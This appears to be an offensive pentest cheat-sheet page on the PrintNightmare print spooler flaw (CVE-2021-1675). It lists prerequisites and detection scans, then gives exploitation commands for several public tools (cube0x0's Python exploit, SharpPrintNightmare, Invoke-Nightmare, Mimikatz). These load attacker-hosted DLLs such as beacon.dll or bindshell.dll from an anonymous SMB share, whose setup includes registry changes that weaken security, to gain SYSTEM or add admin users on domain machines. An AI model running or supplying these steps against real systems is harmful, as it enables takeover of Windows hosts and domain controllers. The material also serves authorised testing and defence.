 # PrintNightmare

<mark style="color:green;">****</mark>[<mark style="color:green;">**CVE-2021-1675**</mark>](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1675) <mark style="color:green;">**is a critical remote code execution and local privilege escalation vulnerability dubbed "PrintNightmare."**</mark>

The print spooler service is vulnerable to remote code execution that leverages a compromised user account, either domain-joined or local account, to take full control of a system as the NT SYSTEM user. Proof-of-concept (PoC) code has been made publicly available for this new vulnerability leaving every Windows system at extreme risk.&#x20;

**An adversary exploiting this vulnerability can leverage a domain-joined account, regardless of permissions, to take full control as NT SYSTEM on any domain-joined Windows system.** This includes servers and Domain Controllers. An adversary exploiting this vulnerability can also leverage a local account to take full control as NT SYSTEM on any Windows system that the local account is valid.

## <mark style="color:red;">Requirements</mark>

* <mark style="color:green;">**Spooler Service**</mark> <mark style="color:green;"></mark><mark style="color:green;">enabled (Mandatory)</mark>
* <mark style="color:green;">Server with patches < June 21</mark>
* <mark style="color:green;">DC with</mark> <mark style="color:green;"></mark><mark style="color:green;">`Pre Windows 2000 Compatibility`</mark> <mark style="color:green;"></mark><mark style="color:green;">group</mark>
* <mark style="color:green;">Server with registry key</mark> <mark style="color:green;"></mark><mark style="color:green;">`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall`</mark> <mark style="color:green;"></mark><mark style="color:green;">= (DWORD) 1</mark>
* <mark style="color:green;">Server with registry key</mark> <mark style="color:green;"></mark><mark style="color:green;">`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA`</mark> <mark style="color:green;"></mark><mark style="color:green;">= (DWORD) 0</mark>

## <mark style="color:red;">Target Detection</mark>

We can use `rpcdump.py` from impacket to scan for potential vulnerable hosts, if it returns a value, it could be vulnerable

```python
# impacket
python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol



# it was all a dream
git clone https://github.com/byt3bl33d3r/ItWasAllADream
cd ItWasAllADream && poetry install && poetry shell
itwasalladream -u user -p Password123 -d domain 10.10.10.10/24
docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10
```

## <mark style="color:red;">Tools</mark>

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

{% embed url="https://github.com/outflanknl/PrintNightmare" %}

## <mark style="color:red;">Exploitation</mark>

#### here we use the [python exploit](https://github.com/cube0x0/CVE-2021-1675) because it can do the job remotely.

```python
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

```shell
CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share
```

### <mark style="color:orange;">SMB configuration</mark>

#### Easiest way to host payloads is to use samba and modify `/etc/samba/smb.conf` to allow anonymous access

```tsconfig
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

#### <mark style="color:green;">From windows it's also possible</mark>

```powershell
mkdir C:\share
icacls C:\share\ /T /grant Anonymous` logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```

#### example:

```python
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

### <mark style="color:orange;">other methods</mark>

[SharpNightmare](https://github.com/cube0x0/CVE-2021-1675)

```python
# require a modified Impacket: https://github.com/cube0x0/impacket
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
## LPE
SharpPrintNightmare.exe C:\addCube.dll
## RCE using existing context
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_addb31f9bff9e936\Amd64\UNIDRV.DLL' '\\192.168.1.20'
## RCE using runas /netonly
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll'  'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL' '\\192.168.1.10' hackit.local domain_user Pass123
```

[Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675)

```python
## LPE only (PS1 + DLL)
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
Invoke-Nightmare -DriverName "Dementor" -NewUser "d3m3nt0r" -NewPassword "AzkabanUnleashed123*" 
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
```

[Mimikatz v2.2.0-20210709+](https://github.com/gentilkiwi/mimikatz/releases)

```python
## LPE
misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll
## RCE
misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:LAB /authuser:Username /authpassword:Password01 /try:50
```

[PrintNightmare - @outflanknl](https://github.com/outflanknl/PrintNightmare)

```python
PrintNightmare [target ip or hostname] [UNC path to payload Dll] [optional domain] [optional username] [optional password]
```
